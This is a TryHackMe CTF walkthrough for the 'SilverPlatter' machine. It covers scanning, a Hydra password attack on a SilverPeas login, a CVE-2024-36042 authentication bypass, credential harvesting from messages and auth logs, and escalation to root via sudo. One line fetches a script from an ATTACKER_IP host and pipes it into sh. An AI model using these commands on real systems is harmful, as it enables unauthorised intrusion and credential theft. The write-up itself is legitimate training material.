

## Executive Summary

**SilverPlatter** is an easy-difficulty CTF machine from TryHackMe that demonstrates common web application vulnerabilities and privilege escalation techniques. This comprehensive walkthrough covers the complete attack chain from initial reconnaissance to root access, highlighting critical security misconfigurations.

### Target Information

| Property | Value |
| --- | --- |
| **IP Address** | `10.10.146.228` |
| **Domain** | `silverplatter.thm` |
| **Difficulty** | Easy |
| **Platform** | TryHackMe |

---

## 🔧 Initial Setup

Configure your attack environment by adding the target to your hosts file:

```bash
# Add target to hosts file
echo "10.10.146.228 silverplatter.thm" | sudo tee -a /etc/hosts
```

---

## 🔍 Reconnaissance & Enumeration

### Port Scanning with Nmap

Comprehensive port scanning to identify attack vectors:

```bash
# Full port scan with service detection
sudo nmap -p- silverplatter.thm -A -v -T4 -oN nmap_full.txt
```

**🎯 Key Findings:**

* **Port 22/tcp**: SSH (OpenSSH 8.9p1 Ubuntu)
    
* **Port 80/tcp**: HTTP (nginx 1.18.0)
    
* **Port 8080/tcp**: HTTP proxy service
    


### Alternative: RustScan for Speed

```bash
# Fast port discovery
rustscan -a silverplatter.thm -- -A -sC -sV
```

---

## 🌐 Web Application Analysis (Port 80)

### Initial Website Exploration

The main site appears to be a security company's corporate website running on nginx 1.18.0.


### Directory Enumeration

```bash
# Directory brute forcing
dirsearch -u http://silverplatter.thm -e php,html,txt,js -x 403,404 --full-url
```

**📂 Discovered Paths:**

* `/assets/` → 403 Forbidden
    
* `/images/` → 403 Forbidden
    
* `/LICENSE.txt` → 200 OK
    
* `/README.txt` → 200 OK
    

### Virtual Host Discovery

```bash
# Subdomain enumeration
ffuf -u http://silverplatter.thm/ \
     -H "Host: FUZZ.silverplatter.thm" \
     -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -fs 14124 -fc 404
```

**Result:** No additional virtual hosts discovered.

### 🎯 OSINT: Username Discovery

**Critical Finding:** Contact page revealed username `scr1ptkiddy`


---

## 🔐 SilverPeas Application Analysis (Port 8080)

### Application Discovery

Accessing `http://silverplatter.thm:8080/silverpeas/` revealed a SilverPeas collaboration platform login portal.


---

## 💥 Exploitation Phase

### Password Spraying Attack

With the identified username `scr1ptkiddy`, I initiated targeted password attacks.

#### 1\. Custom Wordlist Generation

```bash
# Generate wordlist from target website
cewl http://silverplatter.thm -m 4 -w custom_wordlist.txt
```

#### 2\. Method A: Burp Suite Intruder Attack

**Configuration:**

* Target: `POST /silverpeas/AuthenticationServlet`
    
* Payload: Custom wordlist
    
* Attack type: Sniper
    


#### 3\. Method B: Caido Automated Attack


#### 4\. Method C: Hydra Brute Force

```bash
# Hydra password attack
hydra -l scr1ptkiddy -P custom_wordlist.txt silverplatter.thm \
      -s 8080 http-post-form \
      "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:ErrorCode=1"
```

**🎉 SUCCESS:** Valid credentials discovered

* **Username:** `scr1ptkiddy`
    
* **Password:** `adipiscing`
    

### 🚨 Bonus Discovery: Authentication Bypass (CVE-2024-36042)

**Critical Vulnerability:** Removing the password field from the login request allows authentication bypass.


---

## 🏃‍♂️ Post-Exploitation: SilverPeas Access

### Application Dashboard


### 🔍 Message Analysis

Systematic enumeration of application messages revealed sensitive information in Message ID 6:


**💎 Critical Finding:** SSH credentials discovered in message content:

```plaintext
Dude how do you always forget the SSH password? 
Use a password manager and quit using your silly sticky notes.

Username: tim
Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```


---

## 🔑 SSH Access & User Flag

### Initial Access

```bash
# SSH connection
ssh tim@silverplatter.thm
# Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

**🏁 User Flag Captured:** `THM{c4ca4238a0b923820dcc509a6f75849b}`

---

## ⬆️ Privilege Escalation

### System Enumeration

```bash
# User information
id
# Output: uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)

# Check group permissions
groups tim
```

**🎯 Key Finding:** User `tim` belongs to the `adm` group, enabling access to system logs.

### Log Analysis & Password Discovery

```bash
# Search for sensitive information in logs
grep -r "sudo\|password" /var/log/auth.log* 2>/dev/null
```

**💥 Critical Discovery:** Password exposed in authentication logs:

```plaintext
/var/log/auth.log.2:Dec 13 15:40:33 silver-platter sudo: tyler : TTY=tty1 ; PWD=/ ; 
USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d 
-e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

### Lateral Movement: Password Reuse Attack

```bash
# Attempt user switching with discovered password
su tyler
# Password: _Zd_zx7N823/
```


### Privilege Check

```bash
# Check sudo permissions
sudo -l
```

**🚨 Critical Finding:** Tyler has unrestricted sudo access: `(ALL : ALL) ALL`

### Root Escalation

```bash
# Escalate to root
sudo -i
```

**🏆 Root Flag Captured:** `THM{098f6bcd4621d373cade4e832627b4f6}`

---

## 🛠️ Alternative Enumeration: LinPEAS

For comprehensive automated enumeration:

```bash
# On attacking machine
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8000

# On target machine
curl -L http://ATTACKER_IP:8000/linpeas.sh | sh
```

---

## 📋 Attack Chain Summary



---

## 🔍 Key Vulnerabilities Identified

| Vulnerability | Impact | CVSS Score |
| --- | --- | --- |
| **Information Disclosure** | SSH credentials in application messages | High (7.5) |
| **Authentication Bypass** | CVE-2024-36042 | Critical (9.1) |
| **Password Reuse** | Same password across multiple accounts | Medium (6.5) |
| **Log Information Disclosure** | Passwords in system logs | High (7.1) |
| **Excessive Privileges** | Unrestricted sudo access | High (8.4) |

---

## 🛡️ Remediation Recommendations

### Immediate Actions

1. **🔒 Implement proper authentication controls** and rate limiting
    
2. **🚫 Remove sensitive information** from application messages
    
3. **🔐 Enforce unique, complex passwords** across all services
    
4. **📝 Implement log sanitization** to prevent credential exposure
    
5. **⚖️ Apply principle of least privilege** for administrative access
    

### Long-term Security Improvements

* Deploy centralized password management solution
    
* Implement comprehensive security monitoring
    
* Regular security assessments and penetration testing
    
* Security awareness training for development teams
    

---

## 🔧 Tools Arsenal

| Category | Tools Used |
| --- | --- |
| **Reconnaissance** | Nmap, RustScan |
| **Web Testing** | dirsearch, ffuf, Burp Suite, Caido |
| **Password Attacks** | Hydra, cewl, custom wordlists |
| **Post-Exploitation** | LinPEAS, manual enumeration |
| **Documentation** | Screenshots, detailed notes |

---

## 🎓 Learning Outcomes

This CTF demonstrates several critical security concepts:

* **OSINT techniques** for username enumeration
    
* **Password spraying** methodologies
    
* **Application message analysis** for sensitive data
    
* **Log file analysis** for privilege escalation
    
* **Credential reuse** attack patterns
    

---

## ⚠️ Ethical Disclaimer

> **Important:** This writeup is intended for educational purposes only. Always ensure you have explicit written authorization before testing any system. Unauthorized access to computer systems is illegal and unethical.